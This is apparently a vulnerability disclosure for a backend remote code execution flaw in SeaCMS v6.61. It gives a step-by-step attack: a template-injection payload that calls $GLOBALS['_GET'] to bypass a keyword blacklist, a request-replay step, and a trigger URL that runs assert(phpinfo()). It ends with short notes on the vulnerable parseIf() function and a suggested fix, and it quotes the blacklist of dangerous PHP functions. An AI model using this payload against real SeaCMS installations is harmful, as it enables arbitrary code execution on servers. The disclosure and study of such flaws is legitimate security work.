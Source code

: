 ###Seacms v6.61 latest version backend RCE
@(技术学习)[Published]
***
####Attack process
First: login to the admin panel , in System setup panel , we add a playback sources.
![Alt text](./1532506604446.png)
![Alt text](./1532506622848.png)
The name of the source is 
```bash
{if:1)$GLOBALS['_G'.'ET'][z1]($GLOBALS['_G'.'ET'][z2]);//}{end if}
```
others params Can write casually

Second：we add a video , in Playback source , we choose What we added just now ， Data address Can write casually ，and click the Manual correction button. 
![Alt text](./1532507229563.png)
![Alt text](./1532507257697.png)
Then we Capture packets , and change the value of v_playfrom[1] to 
```bash
{if:1)$GLOBALS['_G'.'ET'][z1]($GLOBALS['_G'.'ET'][z2]);//}{end if}
```
and Replay the  packets .

Third : Code execution:
we can get the id of the video in the manage panel : 3
![Alt text](./1532507559668.png)
then we visit ```http://127.0.0.1/seacms/video/index.php?3-0-0.html&z1=assert&z2=phpinfo();``` , You can see the RCE .
(tips: 3-0-0.html 3 is the id of the video.)
![Alt text](./1532507687757.png)


####Principle analysis
In the render view process of this cms , some parameters is not checked stricted .
In ```/include/main.class.php```, there are a function ```parseIf()``` which is fragile . 
```php
$iarok[] = str_ireplace(array('unlink','opendir','mysqli_','mysql_','socket_','curl_','base64_','putenv','popen(','phpinfo','pfsockopen','proc_','preg_','_GET','_POST','_COOKIE','_REQUEST','_SESSION','_SERVER','assert','eval(','file_','passthru(','exec(','system(','shell_'), '@.@', $v);
```


####Repair advice
change the Blacklist filtering rule ,and filter the ```GLOBALS```Key word .

